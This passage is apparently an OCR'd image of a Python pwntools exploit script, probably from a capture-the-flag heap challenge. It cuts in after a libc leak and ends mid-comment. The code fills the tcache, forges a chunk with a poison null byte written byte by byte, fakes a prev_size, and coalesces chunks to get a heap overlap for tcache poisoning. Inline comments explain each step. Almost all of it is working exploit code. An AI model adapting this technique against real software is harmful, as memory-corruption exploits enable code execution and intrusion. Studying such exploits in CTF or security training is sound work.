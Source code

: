 ```python
p.recvuntil('[ Description         ]: ') 
libcleak = p.recvline()[:-1]
libcleak = u64(libcleak.ljust(8, '\x00'))
libc.address = libcleak - 0x1e4c40 - 96
log.info("libc base: " + hex(libc.address))

# Fill the rest of the tcache
for i in range(4):
    alloc(0x200, 'A' * 0x20) #2,3,4,5

for i in range(3):
    alloc(0, '') # 6,7,8
for i in range(2,10):
    free(i)
# 7 chunks in 0x40 tcache
# tcache should be filled up now

# Now its time for the poison null byte. just remember what i said before and you should be fine.
# there is however one thing to note and its the size i chose to overwrite.
# i allocated 0x4f0 for it so it becomes 0x500. not only do i not have to fill tcachebin for it before it does the coalesce/unsorted mechanism
# but when i overwrite it, it will become 0x501(prev in use is on) to 0x500. this way i wont have to deal with the libc check
# that checks the chunks afterwards as the size did not actually change. also you will need to slowly write the poison null byte by writing backwards byte by byte
# due to the way it transfers the data from the buffer to the eap in the allocation function.
# you will also need to make sure you have a freed chunk in that coalesced regioon to create a heap overlap afterwards.

# time for the poison null byte
alloc(0x50, 'C'*0x38 + p64(heapleak+0xa50)) # 2

# wipe out null bytes to set up forged chunck correctly
for i in range(6):
    free(2)
    alloc(0x50, 'C'*(0x38-i-1))
free(2) #continue setting up forged chunk
alloc(0x50, 'C'*0x30+p64(heapleak+0xa50))
for i in range(6):
    free(2)
    alloc(0x50, 'C'*(0x30-i-1))
free(2)
alloc(0x50, 'C'*0x28+p64(small+0x38)) #2
# forged chunk should be good to go

alloc(small, 'D' * 100) #3
alloc(big, 'E'*0x100) #4
alloc(0x210, '') #Prevent top consolidation #5
free(3)
alloc(small, 'F'*(small)) # poison null byte

#setup fake prev size
free(3)
for i in range(6):
    alloc(small, 'F'*(small-i-1))
    free(3)
alloc(small, 'F'*(small-0x8)+p64(small+0x38))
free(3)
free(4) #chunk coalesced now

# now you have coalesced region with a free chunk pointing to the same region, thereby creating a heap overlap. technically tcache poison by overwriting the fd pointer is very trivial. but beware the
```